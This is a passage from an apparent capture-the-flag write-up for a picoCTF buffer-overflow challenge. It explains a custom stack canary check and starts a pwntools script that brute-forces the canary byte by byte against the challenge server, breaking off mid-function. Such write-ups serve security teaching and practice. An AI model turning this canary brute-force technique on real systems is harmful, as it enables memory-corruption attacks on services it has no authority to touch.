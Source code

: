{% codeblock lang:c first_line:60  %}
   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n");
      fflush(stdout);
      exit(-1);
   }
{% endcodeblock %}

This uses `memcmp()` to determine if the current canary is the same as the global canary. If it's different, then the program will run `exit(-1)`, which is a really weird/invalid exit code and supposedly represents "[abnormal termination](https://softwareengineering.stackexchange.com/questions/314563/where-did-exit-1-come-from)":

<img src="/asset/pico22/buffer-overflow/memcmp1.png" style="border-radius:5px; margin-top:15px; margin-bottom:15px;">

However, if we theoretically overwrite the canary with a single correct byte, `memcmp()` won't detect anything!:

<img src="/asset/pico22/buffer-overflow/memcmp2.png" style="border-radius:5px; margin-top:15px; margin-bottom:15px;">

### II: Bypassing the Canary 💨

We can now start writing our script! My plan is to loop through all printable characters for each canary byte, which can be imported from `string`. Let's include that in our pwn boilerplate alongside a simple function that allows us to swap between a local and remote instance:

```py
#!/usr/bin/env python3
from pwn import *
from string import printable

elf = context.binary = ELF("./vuln", checksec=False) # Creates ELF object
host, port = "saturn.picoctf.net", [PORT]
offset = 64

def new_process(): # Specify remote or local instance with CLI argument
    if args.LOCAL:
        return process(elf.path)
    else:
        return remote(host, port)
```

Here's the big part: the `get_canary()` function. I'll be using [`pwnlib.log`](https://docs.pwntools.com/en/stable/log.html) for some spicy status messages. My general process for the brute force is visualized here if you're having trouble:

<img src="/asset/pico22/buffer-overflow/brute-visual.png" style="border-radius:5px; margin-top:15px; margin-bottom:15px;">

I'll be initially sending 64 + 1 bytes, and slowly appending the correct canary to the end of my payload until the loop has completed four times:

{% codeblock lang:py first_line:15 %}
def get_canary():
    canary = b""
    logger = log.progress("Finding canary...")
    for i in range(1, 5):
        for char in printable:
            with context.quiet: # Hides any other log
                p = new_process()
                p.sendlineafter(b"> ", str(offset + i).encode())
                p.sendlineafter(b"> ", flat([{offset: canary}, char.encode()]))
                output = p.recvall()
                if b"?" in output: # If program doesn't crash
                    canary += char.encode()
                    logger.status(f'"{canary.decode()}"')
                    break
